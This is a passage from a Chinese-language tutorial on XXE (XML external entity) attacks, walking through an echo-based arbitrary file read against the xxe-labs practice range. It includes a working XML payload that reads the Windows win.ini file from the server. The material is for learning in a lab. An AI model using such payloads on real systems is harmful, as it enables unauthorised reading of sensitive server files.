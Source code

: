 ## 3.3.**总结**

以上都是简单测试，以及了解相关的payload如何构建，下面才是真实的案例。

# 4.**任意文件读取**

所谓的任意文件读取，其实也就是读取受害者服务器中的敏感文件。这里同样分为无回显和有回显操作。这里我们使用xxe-labs靶场做演示，之前有提到这个靶场在那下载。

## 4.1.**有回显案例**

### 4.1.1.**抓包**

我们在打开靶场后，输入账号和密码后对其进行抓包，如何放到重放器中。当然这里的账号和密码随便输都行。

![img](assets/tKbzwihEYkCgxBW.jpg) 

### 4.1.2.**构建payload**

我们通过构建的payload对Windows中的配置文件，进行读取，也是成功读取了。

payload：

```xml
<?xml version="1.0" encoding="UTF-8" ?>

<!DOCTYPE foo [ 

<!ENTITY rabbit SYSTEM "file:///c:/windows/win.ini" >

]>

<user><username>&rabbit;</username><password>123</password></user>
```
